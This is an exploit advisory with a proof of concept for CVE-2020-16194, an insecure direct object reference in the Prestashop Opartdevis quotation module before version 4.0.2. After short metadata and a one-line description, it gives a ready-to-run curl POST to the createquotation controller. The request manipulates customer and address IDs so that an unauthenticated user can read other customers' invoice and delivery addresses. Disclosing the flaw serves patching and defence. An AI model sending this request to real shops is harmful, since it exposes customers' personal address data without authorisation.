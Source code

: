 ```
Exploit Title: Prestashop Opartdevis < 4.0.2 - IDOR on addresses fields
Date: 2020-06-07
Exploit Author: layno, c0dejump (https://www.login-securite.com/)
Vendor Homepage: https://www.prestashop.com
Software Link: https://www.store-opart.fr/
Version: <4.0.2
Tested on: Debian 10
CVE: CVE-2020-16194
```

## Description:
Unauthenticated attackers can have access to any user's invoice and delivery address by exploiting an IDOR on the `delivery_address` and `invoice_address` fields.


## PoC:
```bash
curl -s -k -X $'POST' \
--data-binary $'opart_devis_customer_id=-1&delivery_address=1&invoice_address=0&opart_devis_carrier_input=1&selected_carrier=0' \
$'http://localhost/index.php?fc=module&module=opartdevis&controller=createquotation&change_carrier_cart'
```
